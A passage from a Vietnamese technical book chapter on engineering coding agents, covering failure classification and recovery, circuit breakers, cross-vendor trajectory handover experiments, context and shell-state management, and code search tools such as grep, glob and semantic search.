trực tiếp lên **action**, chứ không chỉ phụ thuộc vào outcome. Kỹ thuật RLVP trong Chapter 8 (Reinforcement Learning with Verified Penalty—"reward the outcome, penalize the path") giải quyết bài toán tương tự từ phía training: bên cạnh final outcome reward, hệ thống sẽ penalize các hành vi vi phạm có thể verify được trên execution path, từ đó nội tại hóa nguyên tắc "nói không với các giải pháp mang tính phá hủy (destructive means)" thành engineering common sense của model. Đối với một model sẵn có, Harness guardrails là các external constraint; đối với một model có thể train được, process penalties sẽ nội tại hóa chính các constraint đó. Mục tiêu cuối cùng là hoàn toàn đồng nhất.

**Tool Orchestration: Fault Boundary Control**. Các Coding Agent hoàn thiện đều hỗ trợ parallel tool calls. Thách thức cốt lõi dưới góc nhìn Harness là **cơ chế lan truyền lỗi (fault propagation)**: khi một tool bị fail, những call nào cần phải abort và những call nào được phép tiếp tục? Nguyên tắc ở đây là fault chỉ được phép propagate trong phạm vi cùng một batch của các parallel calls, tuyệt đối không leo thang lên parent operation. Ví dụ, khi đọc ba file song song (in parallel), một file bị missing chỉ làm fail duy nhất call tương ứng; nó không được phép cancel hai call còn lại hay abort toàn bộ task. Khả năng kiểm soát fault boundary ở mức fine-grained này giúp loại bỏ hoàn toàn pattern mong manh theo kiểu "một command fail làm abort cả task". Các mechanism chi tiết về parallel calls, streaming parsing và cascading aborts được trình bày cụ thể trong phần "Implementation Tips" của chương này.

### Failure and Error Recovery

Phần trước đã trình bày các nguyên lý và thành phần của Harness engineering; phần này sẽ đi sâu vào khía cạnh tạo nên sự khác biệt rõ rệt nhất về mức độ trưởng thành kỹ thuật (engineering maturity)—**failure and error recovery**. Thí nghiệm ablation experiment trong Chương 1 đã cho thấy mức độ nghiêm trọng của vấn đề: chỉ cần thiếu một tool-result feedback duy nhất cũng đủ để khiến một Agent rơi vào infinite loop—và các môi trường production thực tế còn đối mặt với những failure đa dạng hơn nhiều so với bất kỳ thử nghiệm nào. Phần này sẽ trả lời một cách có hệ thống ba câu hỏi: Một production Harness sẽ gặp phải những failure nào? Chúng được detect và recovery ra sao? Và khi nào hệ thống bắt buộc phải terminate?[^ch5-3]

[^ch5-3]: Bảng phân loại failure taxonomy và phân tích cơ chế trong phần này dựa trên việc nghiên cứu source code của các implementation Agent cấp production như Claude Code. Các implementation cụ thể thay đổi rất nhanh qua từng phiên bản; phần này chỉ chắt lọc những nguyên lý kỹ thuật cốt lõi và ổn định.

**A taxonomy of failures: four layers.** Bước đầu tiên để xử lý một cách có hệ thống là phân loại. Các failure được chia thành 4 layer tùy theo vị trí phát sinh:

- **API layer**: rate limiting (HTTP 429), service overload, request timeouts, connection drops, và output truncated tại token limit. Những failure này không liên quan đến bản thân task—chúng là infrastructure noise.
- **Tool layer**: hallucinated calls (gọi một tool không tồn tại), malformed arguments (vi phạm input contract của tool), execution exceptions, và dạng nguy hiểm nhất—một tool liên tục trả về cùng một error trong khi model vẫn retry lại mà không thay đổi bất kỳ điều gì.
- **Context layer**: context window overflow, compaction failure, và corrupted trajectory structure (chẳng hạn như một tool call bị thiếu result message đi kèm).
- **Control-flow layer**: infinite loops (lặp lại cùng một thao tác nhưng không tạo ra progress) và death spirals (recovery logic được kích hoạt bởi một error lại tiếp tục gọi LLM, fail tiếp và tạo thành chuỗi cascade).

**Detection: classify first, then count.** Khi một failure xảy ra, câu hỏi đầu tiên không phải là "Chúng ta có nên retry không?" mà là "Liệu retry có giải quyết được gì không?" Các retryable errors (rate limiting, overload, network jitter) xứng đáng được retry; ngược lại, các non-retryable errors (invalid arguments, không đủ permission, nonexistent tool) sẽ luôn trả về cùng một kết quả dù có retry bao nhiêu lần nguyên trạng—buộc phải thay đổi input hoặc strategy. Một production Harness duy trì một mapping rõ ràng từ các error types sang recovery strategies, thay vì áp dụng một cơ chế "retry on error" cào bằng.

Bên cạnh các error riêng lẻ, hệ thống cần detect các **pattern**. Đầu tiên là repeated-call fingerprints: hash cặp "tool name + arguments"; việc một fingerprint xuất hiện lặp lại là tín hiệu rõ ràng của một no-progress loop—Agent trong ablation experiment ở Chương 1 liên tục gọi một tool duy nhất chính là pattern này. Thứ hai là consecutive-failure counters: mỗi recovery path duy trì một counter riêng, làm nền tảng cho cơ chế circuit breakers được phân tích ở phần tiếp theo.

Nhóm failure thứ ba hoàn toàn không biểu hiện dưới dạng error và đòi hỏi phải có cơ chế **liveness and integrity monitoring** chuyên dụng. Failure mode nguy hiểm nhất của một streaming connection không phải là drop (vốn sẽ lập tức trả về error) mà là silent stall — connection vẫn duy trì nhưng luồng data flow bị dừng lại, giống như một đường ống đã nối nhưng không chảy ra giọt nước nào. SDK timeout thường chỉ bao quát quá trình kết nối ban đầu chứ không kiểm soát toàn bộ transfer process. Do đó, một production Agent cần một idle watchdog độc lập (một watchdog timer — nếu không có output mới nào được trả về trong một khoảng interval định trước, connection sẽ bị coi là stall) để kill luồng hung stream này và trigger một lượt retry khi timeout. Điều này được khái quát hóa thành nguyên tắc: **mọi long-lived connection đều cần một liveness signal, chứ không chỉ một connection timeout**. 

Integrity monitoring tập trung vào cấu trúc trajectory: khi phát hiện một tool call bị thiếu result message ghép cặp tương ứng, hệ thống sẽ tiến hành repair cặp message này trước khi inject vào context, thay vì đẩy anomaly về mặt cấu trúc này cho model hoặc user xử lý. Một chi tiết engineering đáng chú ý: một số production Agent vận hành song song cả production mode lẫn training-data collection mode — production mode có thể patch các message bị thiếu bằng placeholder, trong khi training mode sẽ từ chối repair vì các synthetic placeholder này sẽ làm ô nhiễm training data. Chuẩn kép "khoan dung trong production, nghiêm ngặt trong training" này phản ánh mức độ coupling sâu sắc giữa Harness và quá trình model training.

**Recovery: escalate through increasingly visible stages.** Các biện pháp recovery được phân cấp dựa trên mức độ hiển thị (visibility) đối với user; nếu cấp độ thấp hơn đã giải quyết được vấn đề thì không escalate lên cấp cao hơn:

1. **Silent retry**. Action mặc định cho các retryable error. Có hai chi tiết kỹ thuật quyết định việc retry có thành công hay không: thứ nhất, áp dụng exponential backoff kết hợp random jitter để ngăn việc toàn bộ client retry đồng loạt (lockstep) gây ra secondary congestion, đồng thời tuân thủ thời gian chờ do server gợi ý; thứ hai, phân biệt rõ foreground call và background call — một request thất bại trong main-loop sẽ được retry, nhưng các background call phụ trợ (như sinh title, gợi ý input) sẽ bị drop ngay khi fail, tránh để background retry chiếm dụng quota của main-loop và gây ra hiện tượng "retry amplification".
2. **Degrade and continue**. Khi retry thất bại, hãy thay đổi chính request đó và thử lại. Lấy ví dụ về output truncation (generation bị cắt ngắn do chạm length limit): ban đầu hãy âm thầm gửi lại request với output cap được nâng cao hơn; nếu vẫn chưa đủ, hãy append một meta-instruction vào cuối message để model tiếp tục generation từ đúng breakpoint đó. Khi primary model bị quá tải kéo dài, hãy fall back sang một model khác, trước tiên cần strip các proprietary formatting block từ history của model trước để model mới có thể parse được; tương tự, khi một high-cost mode bị rate-limited, hãy tạm thời fall back về standard mode.
3. **Surface to the user**. Chỉ sau khi toàn bộ các giải pháp tự động đã cạn kiệt thì error mới được hiển thị cho user — đi kèm với danh sách các recovery action đã được thực hiện trước đó.

Các error ở tool-layer lại đi theo một hướng tiếp cận khác: **không terminate session; hãy biến chính error đó thành input cho model**. Một hallucinated call sẽ nhận về một structured error result dạng "no such tool"; một validation failure sẽ nhận về một error kèm annotation chứa hint về input contract; các malformed argument (như trả về string trong khi schema yêu cầu object) sẽ được repair bằng code trước khi thực thi. Các error này đi vào context dưới dạng các tool result thông thường, và model sẽ tự thực hiện self-correction ở turn tiếp theo — đây chính là sự hiện thực hóa của nguyên tắc "feedback càng có cấu trúc thì càng hiệu quả": error được phản hồi càng cụ thể, tỷ lệ self-correction của model càng cao.

Nguyên tắc cốt lõi của phần này là: **unit của error handling không phải là một single request, mà là toàn bộ recovery loop**. Chừng nào việc recovery chưa được xác nhận là bất khả thi, các intermediate error tuyệt đối không được expose ra cho consumer — dù đó là end-user hay các downstream system đang subscribe event: hãy giữ lại error message trong suốt quá trình recovery; nếu recovery thành công, consumer sẽ không bao giờ nhận thấy; chỉ khi mọi giải pháp đều thất bại thì các withheld error mới được release ra ngoài. Đây chính là cách triển khai ở tầng engineering cho nguyên tắc hiệu chỉnh từ Chương 1 — "không để lộ các intermediate state cho đến khi việc recovery được xác nhận là bất khả thi."

**Handover: chuyển giao một trajectory chưa hoàn thành sang model khác.** Khi primary model liên tục unavailable, một vendor khác buộc phải tiếp quản để hoàn thành trajectory. Trở ngại thực sự không nằm ở việc endpoint khác nhau, mà là một phần của trajectory vốn chỉ thuộc riêng về vendor ban đầu. Tool calls và tool results có cấu trúc khác nhau giữa các vendor nhưng đều mang cùng ngữ nghĩa, do đó chỉ cần re-render lại là đủ; phần reasoning của model mới là mắt xích phức tạp nhất. Reasoning thường bao gồm hai phần: text có thể đọc được và một credential được vendor đính kèm để chứng thực rằng reasoning đó thực sự do chính họ tạo ra. Text này vẫn hoàn toàn đọc được đối với model khác, nhưng credential lại hoàn toàn vô giá trị tại đó—**một cross-vendor handover có thể chuyển giao text, nhưng không thể mang theo credential**.

Các vendor không có sự thống nhất về các yêu cầu đối với credential. Ở phía dễ dãi (permissive), họ không validate bất kỳ điều gì; ở phía nghiêm ngặt (strict), họ reject mọi credential không phải do chính họ phát hành. Credential cũng không nhất thiết phải gắn liền với reasoning—nó có thể được đính kèm vào tool call. Vì vậy, chính sách tưởng chừng an toàn như "chỉ cần xóa toàn bộ reasoning là xong" lại chính là nguyên nhân gây lỗi ở một số vendor. Cơ chế handover phải được thiết kế nhắm tới kịch bản nghiêm ngặt nhất, đi kèm một fallback cho các trường hợp không thể thỏa mãn: rewrite các historical tool calls thành dạng prose, ngăn model xem chúng như các tool mà nó thực sự đã invoke, nhưng ít nhất vẫn cho phép nó tiếp tục thực thi.

Điều này dẫn đến một design principle cốt lõi: không nên lưu trữ trajectory theo wire format của bất kỳ vendor đơn lẻ nào, mà phải duy trì ở một neutral format. Mỗi phân đoạn reasoning được tách thành portable text và non-portable credential; một tool call chỉ ghi lại name và arguments của nó, còn các identifier sẽ được regenerate lại cho target vendor khi request được render. Khi thực hiện chuyển đổi (switch), credential luôn bị discard và text được đưa sang dưới dạng content thông thường, thay vì cố nhồi ngược lại vào nơi target vendor dùng để lưu trữ reasoning. Reasoning summary mà vendor trả về chính là bản sao portable phục vụ chính xác cho tình huống này—hãy giữ lại nó, và chúng ta không cần phải gọi thêm một model khác để nén hay tóm tắt lại bất cứ điều gì. Giá trị của một neutral trajectory cũng không chỉ dừng lại ở failover: các bài evaluation replay ở Chương 7, việc xây dựng training-sample ở Chương 8 và experience extraction ở Chương 9 đều dựa trên cùng một artifact này.

> **Experiment 5-1 ★★★: Cross-Vendor Trajectory Handover**
>
> **Experiment Goal**: Kiểm chứng xem liệu một neutral trajectory format có cho phép model của một vendor khác hoàn thành tiếp một Agent trajectory đang dở dang hay không, đồng thời định lượng chi phí phải trả của từng phương án "verbatim pass-through" và "strip everything".
>
> **Technical Approach**: Sử dụng một task đòi hỏi nhiều round gọi tool calls; ở giữa chừng, inject liên tiếp các response rate-limit và overload từ vendor hiện tại, và sau khi circuit breaker ngắt (trip), switch sang một vendor khác rồi tiếp tục chạy. Lưu trữ trajectory dưới một neutral format, trong đó reasoning được tách thành portable text và non-portable credential, còn tool call chỉ ghi lại name cùng arguments. So sánh ba treatment: **pass-through** chuyển nguyên văn (verbatim) các message của vendor ban đầu sang cấu trúc của vendor mới; **stripping** xóa toàn bộ reasoning và credential; **neutral** discard credential và mang theo text, hoặc reasoning summary do vendor trả về, dưới dạng content thông thường, đồng thời regenerate lại các identifier cho target vendor và rewrite các historical calls thành prose khi phía tiếp nhận bắt buộc phải có credential. Chọn ba vendor có wire format khác nhau và switch qua lại giữa từng cặp.
>
> **Acceptance Criteria**: Giữ lại raw response của request đầu tiên sau mỗi lần switch; lỗi pass-through thất bại phải là error thực tế từ phía vendor, tuyệt đối không dùng error giả lập. Yêu cầu treatment neutral không phát sinh bất kỳ API error nào trên mọi cặp vendor, đồng thời ghi nhận trung thực xem hai phương án còn lại fail ở những cặp vendor nào và kèm theo error gì. So sánh cả ba treatment dựa trên task completion, tần suất cùng một tool bị gọi lại sau khi switch (được fingerprint bằng tool name kết hợp arguments), cùng số round và token phát sinh thêm để hoàn thành sau khi switch. Nếu treatment neutral không vượt trội hơn stripping về số lượng redundant calls, hãy ghi nhận điều đó một cách chuẩn xác và trung thực.

> **Experiment 5-2 ★★: Tiếp tục xử lý sau khi Output bị ngắt giữa chừng**
>
> **Experiment Goal**: So sánh giữa phương án "resend toàn bộ turn" và "tiếp tục từ output viết dở dưới dạng prefix" về mặt cost, correctness và side effects.
>
> **Technical Approach**: Chủ động ngắt kết nối tại ba điểm trong một streaming response — giữa quá trình reasoning (mid-reasoning), giữa đoạn văn bản (mid-prose), và giữa chừng argument của tool-call (mid tool-call argument). Ba recovery routes gồm: discard fragment và resend toàn bộ turn; append fragment dưới dạng một trailing assistant message rồi yêu cầu model tiếp tục hoàn thiện (một số vendor hỗ trợ native tính năng này, một số yêu cầu message phải được đánh dấu tường minh là đang chờ continuation, và những vendor không có interface này sẽ fallback về route kế tiếp); append một meta-instruction chỉ thị tiếp tục từ điểm bị ngắt. Một tool call viết dở không thể gửi ngược lại theo native structure của nó, do đó phải chuyển đổi thành text để model hoàn thiện, sau đó re-parse và validate lại sau khi splice. Nếu một tool đã được thực thi eager từ fragment, cần deduplicate theo call fingerprint trước khi tiếp tục nhằm tránh lặp lại side effect.
>
> **Acceptance Criteria**: Lặp lại mỗi break point nhiều lần và báo cáo cho từng route: recovery rate, lượng output tokens tiết kiệm được so với việc resend toàn bộ, tính hợp lệ (validity) cùng semantic correctness của các argument đã hoàn thiện (thao tác splice rất dễ làm phát sinh khoảng trắng thừa hoặc trùng lặp ký tự, và valid không đồng nghĩa với correct), cùng số lượng side effects bị lặp lại. Đồng thời ghi nhận những break point nào không thể reproduce trên từng vendor cụ thể, và liệu fallback route có hoạt động hay không.

**Termination: Mọi recovery path đều cần một ngưỡng trần (ceiling).** Bản thân các recovery mechanism cũng có thể fail, do đó mọi recovery path bắt buộc phải có một retry ceiling tường minh: context compaction sẽ bỏ cuộc sau một số lần fail liên tiếp; permission classifier sẽ fallback về việc hỏi human sau các failure lặp lại; output continuation chỉ được thử lại tối đa một số lần cố định. Các threshold này đến từ đâu? Từ production data, không phải suy đoán. Hãy xem compaction circuit breaker của Claude Code: threshold "3 lần fail liên tiếp" đến từ session statistics thực tế — từng có một session fail hơn ba nghìn lần liên tiếp ngay trên chính recovery path này, và những lần retry vô ích đó đã gây lãng phí khoảng 250.000 API calls mỗi ngày trên toàn cầu; hơn một nghìn session ghi nhận chuỗi 50+ lần fail liên tiếp. Ba (3) chính là empirical inflection point giữa "đại đa số failure đều recover trước ngưỡng này" và "các lần retry tiếp theo về cơ bản là vô vọng".

Nguy hiểm và tinh vi hơn một breaker đơn điểm chính là **death spiral**: logic được kích hoạt trên chính error path lại gọi LLM, tiếp tục fail, và tạo thành cascade. Một kịch bản cascade thực tế: Agent dừng lại do lỗi context-overflow, kích hoạt một stop hook (cleanup logic tự động chạy khi Agent kết thúc) với nhiệm vụ "commit code khi exit", hook này lại gọi LLM để viết commit message, context tiếp tục bị overflow, và hook lại kích hoạt lần nữa. Cơ chế phòng thủ gồm hai phần: disable toàn bộ các side effect có gọi model trên error path (thà chịu mất một tính năng phụ một lần, chẳng hạn như tự động trích xuất memory), và sử dụng một recursion-depth counter để phát hiện cũng như bẻ gãy bất kỳ cascade còn sót lại nào. Cuối cùng, bao trùm lên toàn bộ các cơ chế tự động là các điều kiện global termination và escalation: giới hạn số turn tối đa (maximum number of turns), session budget cap, và escalation sang human intervention khi số lần fail liên tiếp vượt quá threshold.

### Implementation Tips cho Coding Agents

Workflow được mô tả ở trên là trạng thái lý tưởng. Để vận hành nó trong thực tế cần đến một loạt kỹ thuật implementation cụ thể—những giải pháp nhằm tăng response speed và cắt giảm context consumption mà không làm suy giảm quality of thought. Đó chính là các kỹ thuật Agent tổng quát từ Chapter 2 và Chapter 4 được áp dụng trực tiếp vào domain lập trình.

**Parallel Tool Calls, Streaming Execution, and Cascading Abort.**

Các implementation Agent truyền thống thường xử lý tuần tự (serially): sinh một tool call, execute nó, nhận kết quả, sau đó mới quyết định bước tiếp theo. Cơ chế queuing nghiêm ngặt này gây lãng phí rất nhiều thời gian.

Các Coding Agent hiện đại cần tận dụng tối đa streaming responses: Chapter 2 đã giới thiệu cơ chế này khi phân tích về thứ tự model output—ngay khi các parameter của tool call đầu tiên được sinh ra đầy đủ và pass validation, quá trình execution có thể kích hoạt ngay lập tức mà không cần chờ model sinh tiếp các tool call phía sau. Ví dụ: nếu model cần output ba tool call trong một lượt inference—search code, check configuration files, và read logs—thì call đầu tiên có thể bắt đầu execute ngay khi parameter của nó hoàn tất và được validate, chạy gối đầu (overlapping) với quá trình generation của hai call còn lại. Các call độc lập cũng có thể execute song song (parallel) thay vì phải queue tuần tự. Quá trình overlapping execution này giúp giảm đáng kể end-to-end latency, giúp phản hồi của Agent trở nên linh hoạt hơn.

Mặt trái của parallel execution nằm ở khâu fault handling. Mỗi tool definition cần khai báo rõ liệu nó có hỗ trợ concurrent execution hay không (mặc định là không, theo nguyên tắc fail-safe). Khi một call bị fail, cơ chế cascading abort sẽ terminate toàn bộ các call khác trong cùng batch đang phụ thuộc vào kết quả của nó, nhưng không gây ảnh hưởng đến các call độc lập hay parent operation—đây chính là implementation cụ thể của nguyên lý "fault boundary control" trong phần Harness engineering.

**Fine-Grained Context Management.**

Thách thức cốt lõi của Coding Agent là codebase thường rất đồ sộ, trong khi context window của model lại có hạn. Dù các model tiên tiến hiện nay tuyên bố hỗ trợ hàng triệu token, việc nhồi toàn bộ codebase vào context vừa không tối ưu chi phí, vừa không thực sự cần thiết. Quản lý context thông minh đòi hỏi phải vận hành ở nhiều level.

Ở level file reading, Agent không nên lúc nào cũng đọc trọn vẹn toàn bộ file. Đối với các file lớn, tool cần hỗ trợ đọc theo từng line range cụ thể—chẳng hạn chỉ đọc từ dòng 100 đến 150, thay vì load một file dài hàng nghìn dòng. Quan trọng hơn, khi trả về content, line numbers phải được đính kèm—mỗi dòng code đều được prefix bằng số dòng thực tế. Thiết kế tưởng chừng đơn giản này mang lại giá trị rất lớn: model có thể reference chính xác đến "line 42 của `src/main.py`", loại bỏ hoàn toàn ambiguity và giúp các thao tác edit sau đó chuẩn xác hơn.

Ở level command execution, xử lý terminal output cũng đòi hỏi sự chặt chẽ. Quá trình compilation hoặc chạy test có thể nhả ra hàng nghìn dòng output. Nếu inject toàn bộ lượng log này vào context, budget sẽ cạn kiệt rất nhanh. Cơ chế long output truncation và persistence được giới thiệu ở Chapter 4 phát huy tác dụng rõ rệt tại đây: chỉ giữ lại vài dòng đầu của output (thường chứa error context) và vài dòng cuối (thường chứa tóm tắt lỗi - error summaries), thay thế toàn bộ phần ở giữa bằng một dòng placeholder, đồng thời ghi chú rõ rằng full output đã được lưu vào temporary file để Agent có thể view theo nhu cầu (on-demand).

**Dynamic Injection of Environment Information.**

Đây là một ứng dụng thực tế từ kỹ thuật Agent status bar ở Chương 2 vào các Coding Agent. Khác với các Agent thông thường, Coding Agent phụ thuộc rất lớn vào state của execution environment. Trước mỗi lượt inference, các thông tin môi trường then chốt sau đây nên được inject vào cuối context dưới dạng một Agent status bar:

- **Current working directory**: đảm bảo các tham chiếu đường dẫn (path references) luôn chính xác
- **Git branch**: xác định rõ đang làm việc trên main branch hay feature branch
- **Recent commit history**: nắm bắt tiến trình phát triển và các thay đổi gần đây của dự án
- **Overview of unstaged and staged changes**: biết rõ những chỉnh sửa nào đã được thực hiện

Các thông tin này không nên bị hardcode vào static system prompt—điều đó sẽ phá vỡ hiệu năng của KV Cache—mà cần được generate động và inject dưới dạng một appended Agent status bar. Bằng cách này, Agent sẽ đạt được "environmental awareness", giúp mỗi quyết định đưa ra đều dựa trên sự hiểu biết chính xác về state hiện tại, thay vì dựa vào các giả định đã lỗi thời.

**State Persistence in the Command Execution Environment.**

Khi tương tác với code, rất nhiều thao tác phụ thuộc vào environment state: thay đổi thư mục, kích hoạt virtual environment, thiết lập environment variable, khởi chạy background service. Nếu mỗi lệnh đều được thực thi trong một fresh shell độc lập, toàn bộ state này sẽ bị mất—Agent vừa dùng lệnh `cd` để chuyển đến thư mục dự án, nhưng lệnh tiếp theo lại bắt đầu từ thư mục mặc định của shell, buộc nó phải lặp lại toàn bộ quá trình setup. Tệ hơn nữa, ảnh hưởng của một số thao tác (như kích hoạt một Python virtual environment) chỉ có hiệu lực bên trong shell session hiện tại và không thể truyền qua các session khác.

Do đó, một persistent terminal session nên được duy trì: được khởi tạo ngay khi Agent start và giữ active trong suốt toàn bộ phiên tương tác. Mỗi lệnh sẽ được thực thi trong shared terminal này, giúp bảo toàn working directory, environment variable và session state. Thiết kế này đồng nhất hơn với thói quen làm việc của các developer—chúng ta thường thao tác trên một cửa sổ terminal dài hạn (long-running terminal). Dĩ nhiên, Agent cũng cần duy trì khả năng khởi chạy các isolated terminal để hỗ trợ các parallel task, nhưng persistent session vẫn phải là chế độ mặc định (default mode).

**Instant Syntax Feedback Mechanism.**

Điều này một lần nữa chứng minh giá trị của kỹ thuật Agent status bar. Sau khi Agent chỉnh sửa code, nó không nên chờ người dùng yêu cầu chạy test một cách tường minh rồi mới kiểm tra syntax. Hướng tiếp cận hiệu quả hơn là để tool layer tự động chạy linter hoặc syntax checker tương ứng ngay khi thao tác ghi file (file write) hoàn tất, sau đó trả kết quả về cho Agent như một phần trong return value của tool. Nếu phát hiện syntax error, Agent sẽ thấy thông tin lỗi chi tiết ngay lập tức ở lượt inference kế tiếp—tương tự như cách một IDE lập tức cảnh báo một dấu ngoặc đơn chưa đóng. Cơ chế instant feedback này giúp giảm đáng kể chi phí sửa lỗi, bởi Agent có thể khắc phục ngay tại thời điểm lỗi vừa phát sinh mà không cần đợi đến khi chạy test mới phát hiện ra vấn đề.

Năm kỹ thuật triển khai này—parallelism và streaming, context management, environmental awareness, state persistence, cùng instant feedback—kết hợp lại để tạo nên nền tảng kỹ thuật vững chắc cho một Coding Agent hiệu quả. Chúng không phải là những điểm tối ưu hóa rời rạc, mà là các quyết định thiết kế bổ trợ lẫn nhau, cùng hướng tới một mục tiêu duy nhất: giúp Agent làm việc mượt mà và chuẩn xác như một developer giàu kinh nghiệm.

### Search Tools trong Coding Agents

Việc định vị code liên quan trong một codebase lớn là điểm khởi đầu cho công việc của một Coding Agent. Hình 5-3 so sánh một số search tool có tính bổ trợ lẫn nhau, minh họa cách một Coding Agent trưởng thành nên lựa chọn các phương pháp retrieval dựa trên bản chất của task.



**Regex Content Matching** (grep/ripgrep): Phương pháp search truyền thống nhất, quét qua nội dung file từng dòng một để tìm các pattern match. Khi Agent biết chính xác đoạn text cần tìm (function name, variable name, error message), nó có thể định vị mọi vị trí xuất hiện một cách nhanh chóng và chuẩn xác. Khả năng biểu đạt của regular expression (cú pháp mô tả text pattern bằng các ký tự đặc biệt, ví dụ: `def handle.*` match tất cả các function definition bắt đầu bằng `handle`) cho phép bắt các pattern phức tạp—không chỉ text thuần túy, mà cả code tuân theo một cấu trúc cụ thể. Trong thực tế, các tính năng file type filtering (chỉ search trong file Python) và path pattern filtering (loại trừ các test directory) cũng cần được hỗ trợ để giảm thiểu noise. Giới hạn cốt lõi: nó chỉ tìm thấy các match về mặt textual và hoàn toàn không hiểu semantics—search cụm từ "user authentication" sẽ không bao giờ trả về một function xử lý login logic nếu function đó vô tình không chứa từ "authentication".

**Filename Pattern Matching** (glob): Bỏ qua nội dung file, chỉ tìm kiếm trong cấu trúc path của file system để tìm các file match với một pattern. Ví dụ, `**/*.test.ts` đệ quy tìm tất cả các file test TypeScript, `src/components/**/Button.tsx` tìm kiếm Button.tsx ở bất kỳ độ sâu nào bên dưới components. Phương pháp này nhanh hơn nhiều so với content search (không cần mở và đọc file) và là bước đầu tiên của Agent khi explore cấu trúc dự án—nhanh chóng thiết lập framework tổ chức của project bằng cách quét toàn bộ file system.

**Semantic Code Search**: Khác với hai phương pháp exact matching ở trên, nó cố gắng hiểu "nghĩa" của query và code. Phương pháp này cần giải quyết hai bài toán then chốt:

- **Structure-Aware Chunking**: Code sở hữu cấu trúc cú pháp nghiêm ngặt (syntactic structure) và cần được split theo các semantic unit hoàn chỉnh như function, class và method, thay vì cắt mù quáng theo một số lượng ký tự cố định.
- **Hybrid Retrieval** (Chương 3 sẽ đi sâu vào technology stack này): Vector embedding (dense embedding) vượt trội trong việc tìm kiếm code tương đồng về mặt ngữ nghĩa dù cách dùng từ khác nhau (ví dụ: search "verify user identity" có thể tìm ra một function có tên `check_credentials`), trong khi keyword matching lại xuất sắc trong việc match chính xác function name và variable name. Cả hai phương pháp chạy song song (in parallel), sau đó các kết quả được merge và sắp xếp lại bởi một reranker (một cross-encoder thực hiện fine-grained relevance ranking trên các candidate result), mang lại độ phủ (coverage) mang tính bổ trợ cho nhau.

Semantic search đặc biệt phù hợp cho các exploratory task, chẳng hạn như tìm kiếm code liên quan đến việc "tương tác với database" hoặc "xử lý user input validation" trong một codebase xa lạ.

Tuy nhiên, trong giới công nghệ đang có một cuộc tranh luận rõ rệt về việc liệu có đáng để build embedding index cho semantic search hay không. Các Terminal-based Agent như Claude Code chủ ý **không build embedding index**, thuần túy dựa vào agentic grep + glob để retrieval theo cơ chế on-the-fly—điều này tránh được việc phải maintain các index bị cũ (stale) khi code thay đổi, đồng thời loại bỏ toàn bộ hạ tầng indexing infrastructure. Các công cụ IDE-based như Cursor ban đầu tiếp cận theo hướng ngược lại: họ sẵn sàng trả giá cho chi phí build index để đạt được khả năng **cross-file semantic recall**, sử dụng embedding index để nhanh chóng tìm ra các snippet liên quan về ngữ nghĩa nhưng khác biệt về mặt từ ngữ trong các codebase lớn. Ngày nay, các IDE như Cursor cũng đã chuyển sang cơ chế on-the-fly retrieval dựa trên grep + glob.

**Symbol-Level Definition and Reference Lookup**: Phương pháp này tận dụng các tính năng tương tự IDE như "go to definition" và "find all references" để phân biệt symbol definition với reference—ví dụ, nó nhận diện `authenticate` ở dòng 42 là một function definition và vị trí xuất hiện ở dòng 189 là một function call, trong khi text search chỉ có thể tìm thấy toàn bộ các dòng chứa string đó. Các mainstream coding agent hiện tại thường không sử dụng cách tiếp cận này.

Bốn phương pháp search này tạo thành một toolbox mang tính bổ trợ, thường được kết hợp trong thực tế: đầu tiên sử dụng semantic search để tìm module liên quan, sau đó dùng regex matching để định vị chính xác từng dòng code cụ thể, và cuối cùng sử dụng symbol search để trace call chain—một chiến lược tiệm tiến theo hướng "từ thô đến mịn, từ semantics đến syntax" (from coarse to fine, from semantics to syntax).

### File Editing Tools trong Coding Agents

Độ khó của file editing không nằm ở chính thao tác thực thi, mà nằm ở việc làm thế nào để dùng một LLM chỉ dẫn cho hệ thống một cách hiệu quả và đáng tin cậy: "cần thay đổi cái gì và thay đổi như thế nào". Figure 5-4 so sánh 5 cơ chế file editing, minh họa cho sự giằng co căn bản giữa khả năng diễn đạt bằng ngôn ngữ tự nhiên của con người và yêu cầu thực thi chính xác của máy móc.

